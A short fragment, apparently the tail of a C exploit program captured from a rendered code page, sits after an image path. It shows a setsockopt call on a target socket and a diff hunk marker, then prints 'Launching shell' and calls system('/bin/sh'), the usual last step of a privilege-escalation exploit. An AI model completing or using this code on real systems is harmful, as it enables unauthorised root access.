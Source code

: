         if (setsockopt(target_sock, SOL_SOCKET, SO_SNDBUF, &optval, sizeof(optval)) == -1)
            err_exit("[-] setsockopt");
    @@ -321,4 +392,4 @@
        printf("[*] Launching shell\n");
        system("/bin/sh");
        return 0;

    ```


